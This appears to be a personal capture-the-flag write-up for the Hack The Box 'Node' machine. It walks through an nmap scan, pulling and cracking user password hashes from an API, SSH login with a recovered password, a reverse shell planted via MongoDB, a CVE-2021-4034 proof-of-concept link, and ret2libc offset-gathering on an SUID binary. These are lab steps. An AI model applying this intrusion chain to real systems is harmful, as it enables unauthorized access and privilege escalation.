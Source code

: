 # Information gathering

## system network

`10.10.10.58`

## Nmap Scan Result

``` bash
nmap -sC -sTV -Pn  10.10.10.58 -p- -oA node

Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
22/tcp   open  ssh                OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open  hadoop-tasktracker Apache Hadoop
|_http-title: MyPlace
| hadoop-datanode-info: 
|_  Logs: /login
| hadoop-tasktracker-info: 
|_  Logs: /login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Directory enumeration

1. find /api/user/
2. grep admin username and password hash
![[Pasted image 20221229112553.png]]
3. crack password with hashcat or online
4. get password of admin user: `manchester`
5. login with admin user and download backup file
## Password Crack

```bash
tom - spongebob
mark - snowflake
rastating - 5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0
myP14ceAdm1nAcc0uNT - manchester
```

# Exploit

## Initial Foothold

_find password in backup file_

![[Pasted image 20221229140733.png]]

### Exp

```bash
ssh mark@10.10.10.58
password: 5AYRft73VtFpc84k
```

### Proof

![[Pasted image 20221229140716.png]]

## Lateral Movement

### Method

_Monitor the process with pspy64, Find process run as tom

![[Pasted image 20221229154509.png]]

_Analyze app.js file_

get a doc object from mongodb. and then use exec to execute it.
![[Pasted image 20221229154623.png]]

_Insert reverse shell code into database and wait for reverse shell_

![[Pasted image 20221229154711.png]]

_get the Reverse shell as `tom` user_

### Proof

![[Pasted image 20221229154350.png]]

## Privilege Escalation

[CVE-2021-4034](https://raw.githubusercontent.com/arthepsy/CVE-2021-4034/main/cve-2021-4034-poc.c)

### Method

use the poc of CVE-2021-4034

### proof

![[Pasted image 20221229155800.png]]


Root Returning to the backup script at /var/www/myplace/app.js, it appears that the SUID binary at /user/local/bin/backup is called with the arguments /usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /var/www/myplace. Upon closer examination, the binary appears to hit a segmentation fault if enough data is passed (508 bytes) for the third argument (path), and the -q (quiet mode) flag is not set. ASLR and NX are enabled, so the binary must be exploited by going the `ret2libc` route. 

_use checksec tool to identify ASLR and NX flag_
```bash
checksec --file=backup
```

● Find libc address: ldd /usr/local/bin/backup 
`0xf75c3000`
● Find libc system function: readelf -s /lib32/libc.so.6 | grep system
`0x0003a940`
● Find libc exit function: readelf -s /lib32/libc.so.6 | grep exit 
`0x0002e7b0`
● Find libc /bin/sh reference: strings -a -t x /lib32/libc.so.6 | grep /bin/sh 
`0x0015900b`
After the above information has been gathered, it is fairly straightforward to create a script to handle exploitation. Refer to node_bof.py (Appendix A) for a functional example. 

![[Pasted image 20221229162857.png]]